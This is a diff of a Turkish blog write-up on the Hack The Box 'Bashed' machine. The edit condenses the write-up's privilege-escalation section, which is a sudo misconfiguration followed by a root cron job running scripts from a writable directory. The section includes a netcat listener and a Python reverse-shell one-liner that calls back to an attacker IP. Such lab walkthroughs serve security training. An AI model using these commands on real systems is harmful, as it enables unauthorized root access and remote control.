

Before and after one commit to burakcanbalta/burakcanbalta.github.io, a Markdown page: content/articles/Bashed.md, the part around one of its changes. Shown at 80% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/content/articles/Bashed.md
+++ b/content/articles/Bashed.md
@@ -104,20 +61,14 @@ connect to [10.10.14.187] from (UNKNOWN) [10.129.51.18] 46020
 $
 ```
 
-PTY olmayan yarım bir shell — bu box için yeterli, upgrade etmedim.
-
 ---
 
-### 4. Privilege Escalation — www-data'dan scriptmanager'a
-
-Shell'im artık daha kullanışlı, sıradaki adım klasik: **hangi yetkilerle neler yapabiliyorum?**
+### 4. Privilege Escalation — www-data → scriptmanager
 
 ```
 $ id
 uid=33(www-data) gid=33(www-data) groups=33(www-data)
 ```
-
-Standart bir web sunucusu kullanıcısıyız, özel bir grup üyeliğimiz yok. Bu noktada her zaman kontrol ettiğim ilk şeylerden biri sudo yetkileridir — çünkü çoğu zaman servis hesapları, farkında olmadan geniş sudo izinleriyle bırakılır:
 
 ```
 $ sudo -l
@@ -125,51 +76,45 @@ User www-data may run the following commands on bashed:
     (scriptmanager : scriptmanager) NOPASSWD: ALL
 ```
 
-Bu satır altın değerinde. Anlamı şu: `www-data` kullanıcısı, **hiçbir şifre girmeden**, `scriptmanager` kullanıcısı kimliğiyle **istediği herhangi bir komutu** çalıştırabilir. Bu, klasik bir "aşırı geniş sudo kuralı" (sudo misconfiguration) örneği — güvenlik ekibi muhtemelen "belirli bir script'i çalıştırabilsin" demek isterken, `ALL` yazarak kapıyı sonuna kadar açık bırakmış.
+`www-data`, şifre girmeden `scriptmanager` kimliğiyle **herhangi bir komutu** çalıştırabiliyor — kural muhtemelen tek bir script'e izin vermek amacıyla yazılmış, `ALL` ile kapsam tamamen genişletilmiş. Klasik bir sudo misconfiguration.
 
 ```bash
 sudo -u scriptmanager /bin/bash
 ```
 
-`-u scriptmanager` parametresi, komutu hangi kullanıcı kimliğiyle çalıştıracağımı belirtir. Bu komutla artık `scriptmanager` kullanıcısı olarak tam bir bash shell'e sahibim — root değilim ama önemli bir yatay/dikey geçiş yaptım.
+### 5. Privilege Escalation — scriptmanager → root
 
----
-
-### 5. Privilege Escalation — scriptmanager'dan root'a
-
-`scriptmanager` olarak etrafı incelerken dikkatimi çeken bir dizin vardı:
+`scriptmanager` context'inde dikkat çeken nokta, kullanıcıya özel bir dizin:
 
 ```
 $ ls -ld /scripts
 drwxrwxr-- 2 scriptmanager scriptmanager 4096 Jun  2  2022 /scripts
 ```
 
-`www-data` iken bu dizine giremiyordum (`Permission denied`), çünkü izinler sadece `scriptmanager` kullanıcısına ve grubuna yazma/okuma hakkı veriyordu. Ama artık `scriptmanager`'ım, yani bu dizin bana açık.
+`www-data` iken bu dizine erişim `Permission denied` ile reddediliyordu; izinler sadece `scriptmanager` sahipliği/grubuna yazma-okuma hakkı tanıyor. `sudo -l` çıktısındaki `NOPASSWD: ALL` doğrudan crontab'a erişim vermiyor — root'un crontab'ını göremiyoruz. Ama isim seçimi (`scriptmanager` + `/scripts`) tek başına güçlü bir sinyal: bu paternde neredeyse her zaman root'a ait bir cron job, bu dizini periyodik tarayıp içindeki dosyaları kendi yetkisiyle çalıştırır. Crontab'a doğrudan erişim yoksa bu, genelde `pspy` ile (root yetkisi gerektirmeden çalışan process'leri gözlemleyen bir araç) doğrulanır; Bashed'de senaryo tam olarak bu — `/scripts` altındaki `.py` dosyaları root cron job'u tarafından düzenli aralıklarla execute ediliyor.
 
-Burada önemli bir ipucu daha var, biraz da tecrübeyle fark edilen bir şey: **böyle "scriptmanager" adında özel bir kullanıcı ve ona ait bir `/scripts` dizini varsa, arkada büyük ihtimalle bir cron job bu dizini periyodik olarak tarayıp içindeki script'leri root yetkisiyle çalıştırıyordur.** Bu tür kutularda genelde `pspy` gibi bir araçla (root yetkisi olmadan çalışan process'leri gözlemleyen bir tool) crontab'ı doğrudan görmeden de hangi process'lerin periyodik çalıştığını tespit edebilirsiniz. Bashed'de tam olarak bu senaryo geçerli: sistemde root'a ait bir cron job, `/scripts` dizinindeki `.py` uzantılı dosyaları düzenli aralıklarla **root yetkisiyle** çalıştırıyor.
+Zincir şu şekilde tamamlanıyor:
 
-Yani mantık zinciri şöyle tamamlanıyor:
+1. `/scripts`, `scriptmanager` tarafından yazılabilir.
+2. Root, bu dizindeki script'leri periyodik olarak kendi yetkisiyle çalıştırıyor.
+3. `scriptmanager` context'i bu dizine dosya yazmaya yetiyor.
+4. **Sonuç:** Buraya bırakılan herhangi bir kod, root tarafından root yetkisiyle execute edilir — klasik *writable path + privileged scheduled execution* kombinasyonu.
 
-1. `/scripts` dizini `scriptmanager` kullanıcısına yazılabilir.
-2. Root, arka planda periyodik olarak bu dizindeki script'leri kendi yetkisiyle çalıştırıyor.
-3. Ben `scriptmanager` olarak bu dizine dosya yazabiliyorum.
-4. **Sonuç:** Buraya kendi reverse shell kodumu yazarsam, root bunu benim için, kendi yetkisiyle çalıştırır.
-
-Bunu doğrulamak/istismar etmek için önce ikinci bir netcat dinleyici açtım (ilk shell'im hâlâ açık kalsın istedim, olası bir sorunda kaybetmemek için):
+İkinci bir listener açılıyor (ilk shell korunuyor):
 
 ```bash
 rlwrap nc -nvlp 4445
 ```
 
-Sonra `scriptmanager` shell'imden, `/scripts` dizinine yeni bir Python dosyası oluşturup içine aynı mantıkla çalışan bir reverse shell kodu yazdım:
+`/scripts` dizinine yeni bir payload yazılıyor:
 
 ```bash
 echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.187",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' >> /scripts/test.py
 ```
 
-Burada `echo ... >> /scripts/test.py` komutunu kullanmamın nedeni basit: elimde bir metin editörü açma lüksü yok (ya da açmak istemedim), bu yüzden `echo` ile string'i doğrudan dosyaya **ekliyorum** (`>>` — üzerine yazmak yerine sona ekler; `test.py` yoksa oluşturur). İçerik, bir önceki bölümde detaylıca açıkladığım **aynı reverse shell mantığı** — sadece bu sefer IP aynı ama port `4445`, çünkü ilk shell'imle karışmasın istedim.
+Port `4444`'ten farklı seçildi (`4445`), aktif ilk shell ile karışmasın diye. `echo ... >>` tercih edilmesinin nedeni pratik: elde interaktif bir editör olmadan dosyayı doğrudan oluşturup içeriği tek satırda yazmak.
 
-Kodu yazdıktan sonra tek yapmam gereken **beklemekti** — cron job'un bir sonraki çalışma zamanını bekledim (genelde bu tür kutularda 1 dakikayı geçmez). Ve az sonra ikinci dinleyicimde bağlantı düştü:
+Cron'un bir sonraki tetiklenmesi (tipik olarak ≤1 dakika) bekleniyor:
 
 ```
 connect to [10.10.14.187] from (UNKNOWN) [10.129.51.18] 35430
````
Also changed, not shown: other parts of content/articles/Bashed.md (+21 -72 lines).
